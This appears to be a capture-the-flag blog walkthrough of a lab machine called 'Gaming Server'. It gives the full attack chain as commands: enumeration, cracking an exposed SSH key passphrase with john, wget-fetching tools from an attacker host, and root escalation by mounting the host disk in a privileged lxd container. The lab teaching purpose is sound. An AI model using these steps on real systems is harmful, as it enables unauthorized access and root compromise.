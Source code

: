 ```yaml
---
layout: post
permalink: /posts/thm/gaming-server
title: "Gaming Server"
---
```


Let's start our enumeration process with nmap.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/gaming-server/nmap.png)

There are open ports 22 ssh and 80 http. Before visit the web server run a scan for hidden directories.

```
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

While we are waiting the scan go and visit the web server.

![website](/assets/images/thm/gaming-server/website.png)

Nothing interesting here, let's look the source code.

![source-code](/assets/images/thm/gaming-server/source-code.png)

At the end of the source code we have found a message for john. This could be a username. Our web scan has finished.

![gobuster](/assets/images/thm/gaming-server/gobuster.png)

There are two interesting directories `secret` and `uploads`. Let's check them.

![secret](/assets/images/thm/gaming-server/secret.png)

Open this key.

![secret-key](/assets/images/thm/gaming-server/secret-key.png)

Probably we'll be able to SSH with this key and the username we had found earlier. Copy the whole context of the key and create a file, `id_rsa` for example and also change the mode.

```
chmod 600 id_rsa
```

Now try to ssh.

```
ssh -i id_rsa john@<IP>
```

![ssh1](/assets/images/thm/gaming-server/ssh1.png)

Hmm... we need a passphrase. Let's visit the uploads directory.

![uploads](/assets/images/thm/gaming-server/uploads.png)

There are some files.

![meme](/assets/images/thm/gaming-server/meme.png)

![manifesto](/assets/images/thm/gaming-server/manifesto.png)

![dict](/assets/images/thm/gaming-server/dict.png)

One of the file looks like passwords list. Let's try to crack the id_rsa passphrase. We can first use `ssh2john` for that purpose.

```
/opt/john/ssh2john.py id_rsa > hash
```

Now we have the hash, let's crack it.

```
john --wordlist=dict hash
```

![john](/assets/images/thm/gaming-server/john.png)

Here we go. Try to ssh again.

```
ssh -i id_rsa john@<IP>
```

![ssh2](/assets/images/thm/gaming-server/ssh2.png)

From here we can reveal the first flag. We now need to escalate our privileges. Let's review if we can execute any commands as root.

```
sudo -l
```

![sudo-l](/assets/images/thm/gaming-server/sudo-l.png)

Unfortunately the password is not the same as the passphrase for the ssh key. We can use `leanpeas` to automate our possible privileges. On your attacking machine start a python server where the linpeas is located.

```
python3 -m http.server
```

On the target machine navigate to `/tmp` folder and download the script.

![wget](/assets/images/thm/gaming-server/wget.png)

Give execution permission to the script.

```
chmod +x linpeas.sh
```

and run it

```
./linpeas.sh
```

![linpeas](/assets/images/thm/gaming-server/linpeas.png)

Based on the linpeas legend if something is highlighted with red/yellow this probably will be our privilege escalation vector. Our user is in `lxd` group. I have googled `lxd exploit` and I have found this article `https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation`.

![hacktricks](/assets/images/thm/gaming-server/hacktricks.png)

Good news for us! I have followed the steps but for some reason I wasn't able to install `distrobuilder`. Going back to the google result I have found another article `https://www.hackingarticles.in/lxd-privilege-escalation/`> Following these steps I was able to escalate our privileges.

On your attacking machine execute the following commands.

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

Once the tar.gz file is created start python server again.

![builder](/assets/images/thm/gaming-server/builder.png)

On the target machine again from the tmp folder download the tar.gz file.

```
wget http://<YOUR-ATTACKING-MACHINE-IP>:8000/<TAR-FILE-NAME>.tar.gz
```

now we can add the image to LXD

```
lxc image import ./<TAR-FILE-NAME>.tar.gz --alias myimage
```

list the images

```
lxc image list
```

![lxc-ls](/assets/images/thm/gaming-server/lxc-ls.png)

Everything looks good, now use the following commands to escalate our privileges.

```
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

![esc](/assets/images/thm/gaming-server/esc.png)

Here we go, we have a root shell. Try to find the root flag.

```
find / -type f -name root.txt
```